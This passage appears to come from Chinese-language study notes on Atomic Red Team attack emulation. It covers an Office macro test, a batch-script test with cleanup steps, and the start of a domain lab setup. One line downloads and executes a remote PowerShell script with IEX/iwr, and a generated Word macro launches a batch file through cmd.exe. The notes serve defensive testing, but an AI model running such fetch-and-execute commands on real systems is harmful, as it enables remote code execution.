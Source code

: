 ```powershell
# 清理文件
Remove-Item -Path $env:TEMP\NTFS_ADS.txt -Force -ErrorAction Ignore
```

---

## Office宏

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"$("$env:temp\art1204.bat")`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c $("$env:temp\art1204.bat") `", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct Word
```

![image-20231206142124746](http://cdn.ayusummer233.top/DailyNotes/202312061422421.png)

![image-20231206142200834](http://cdn.ayusummer233.top/DailyNotes/202312061422500.png)

---

### 创建于执行 Batch 脚本

> AtomicRedTeam T1059.003-1 Create and Execute Batch Script

```powershell
New-Item "C:\AtomicRedTeam\ExternalPayloads\T1059.003_script.bat" -Force | Out-Null
Set-Content -Path "C:\AtomicRedTeam\ExternalPayloads\T1059.003_script.bat" -Value "dir"
Start-Process "C:\AtomicRedTeam\ExternalPayloads\T1059.003_script.bat"
```

![image-20231206231252961](http://cdn.ayusummer233.top/DailyNotes/202312062312021.png)

Cleanup:

```powershell
Remove-Item "C:\AtomicRedTeam\ExternalPayloads\T1059.003_script.bat" -Force -ErrorAction Ignore
```

---

## 域渗透

### 域控环境搭建

> [域环境搭建 (qq.com)](https://mp.weixin.qq.com/s/sqAFxgfm1h4gU-fuvjfuWQ)

---

#### 配置网络信息

装一台 Windows Server, 这里选择的是 Windows Server 2016, 配置局域网网卡属性:
